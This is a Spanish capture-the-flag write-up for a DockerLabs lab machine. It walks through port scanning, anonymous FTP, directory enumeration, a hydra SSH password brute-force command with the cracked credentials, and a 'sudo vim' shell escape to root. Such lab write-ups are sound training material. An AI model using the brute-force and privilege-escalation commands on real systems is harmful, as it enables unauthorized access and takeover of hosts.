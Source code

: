 ```yaml
---
{"-publish":true,"permalink":"/dockerlabs/muy-facil/obssesion/","PassFrontmatter":true}
---
```


![Pasted image 20250526082559.png](/img/user/imgs/Pasted%20image%2020250526082559.png)

empezamos dando un nmap para poder verificar los puertos abiertos:

![Pasted image 20250526082650.png](/img/user/imgs/Pasted%20image%2020250526082650.png)

Vemos que los puertos abiertos son:
- 21
- 22
- 80

observamos que el puerto 21 que es el por defecto del ftp tiene login anonymous:

![Pasted image 20250526082822.png](/img/user/imgs/Pasted%20image%2020250526082822.png)

Observaos que tenemos dos archivos:

chat-gonza.txt
pendientes.txt

- Lo mas interesante que podemos encontrar esta en pendientes.txt:

![Pasted image 20250526082950.png](/img/user/imgs/Pasted%20image%2020250526082950.png)

- **creo que tengo ciertos permisos habilitados que no son del todo seguros**

Podemos pensar en credenciales que tiene sueltas por ahi o cosas asi para loguearnos en el ssh.

Usamos dirsearch para poder buscar directorios;

![Pasted image 20250526083153.png](/img/user/imgs/Pasted%20image%2020250526083153.png)

Nos sale los siguientes directorios, lo mas relevante que encontramosw es backup:

![Pasted image 20250526083511.png](/img/user/imgs/Pasted%20image%2020250526083511.png)

Dentro de backup, existe un backup.txt y nos muestra un mensaje: **Usuario para todos mis servicio: russoski (cambiar pronto!)**

por lo tanto intuimos que es el usuario del ssh, entonces solo nos falta el password, asi que intentamos un hydra:

```
hydra -l russoski -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

![Pasted image 20250526083728.png](/img/user/imgs/Pasted%20image%2020250526083728.png)

lo que encontramos es lo siguiente:

```
[22][ssh] host: 172.17.0.2   login: russoski   password: iloveme
```

entonces ingreseemos al ssh:

**russoski:iloveme**

![Pasted image 20250526083903.png](/img/user/imgs/Pasted%20image%2020250526083903.png)

Podemos continuar con un **sudo -l**

![[Pasted image 20250526083943.png\|Pasted image 20250526083943.png]]

```
Matching Defaults entries for russoski on 0851434ed3f2:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User russoski may run the following commands on 0851434ed3f2:
    (root) NOPASSWD: /usr/bin/vim
```

eso significa **russoski** puede ejecutar ese programa como super usuario.

- Finalmente solo colocamos: **sudo vim -c ':!/bin/sh'**

![[Pasted image 20250526084153.png\|Pasted image 20250526084153.png]]

Explicacion:

Eso se puede utilizar para salir de entornos restringidos mediante la creacion de un shell de sistema operativo.

Para mas informacion: https://gtfobins.github.io/gtfobins/vim/

thanks.


